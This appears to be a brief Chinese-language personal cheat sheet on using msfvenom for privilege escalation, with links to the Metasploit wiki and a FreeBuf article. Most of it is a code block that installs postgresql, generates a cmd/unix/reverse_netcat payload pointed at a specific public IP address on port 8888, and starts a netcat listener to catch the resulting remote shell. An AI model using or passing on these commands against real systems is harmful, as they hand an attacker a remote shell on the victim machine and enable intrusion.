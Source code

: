 > msfvenom payload 提权

> [github](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

> [linx 提权](http://www.freebuf.com/articles/system/176255.html)

ubuntu 安装
--
````
apt install postgresql

# 生成 payload
msfvenom -p cmd/unix/reverse_netcat lhost=118.31.78.77 lport=8888 R     

# 监听
nc -lvp 8888
````
